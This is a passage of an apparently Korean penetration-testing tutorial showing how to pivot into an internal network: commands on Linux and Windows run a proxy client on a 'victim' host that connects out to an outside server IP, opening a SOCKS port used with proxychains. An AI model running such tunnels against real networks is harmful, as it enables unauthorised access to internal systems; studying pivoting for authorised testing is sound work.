 ![Untitled](/assets/2024-03-20//Untitled%2030.png)

## Linux

```powershell
# victim no need root
$ python client.py --server-ip 124.60.4.10 --server-port 10505
```

![Untitled](/assets/2024-03-20//Untitled%2031.png)

# Window

```powershell
# vicitm no need administrator
> C:\Python27\python.exe .\client.py --server-ip 124.60.4.10 --server-port 10505
```

![Untitled](/assets/2024-03-20//Untitled%2032.png)

다음과 같이 연결 시,  127.0.0.1:1080 SOCK5 통신이 활성화되는 것을 확인할 수 있습니다.

![Untitled](/assets/2024-03-20//Untitled%2033.png)

활성된 SOCK4 포트를 사용한 proxychains을 통해 내부망 접근이 가능합니다.
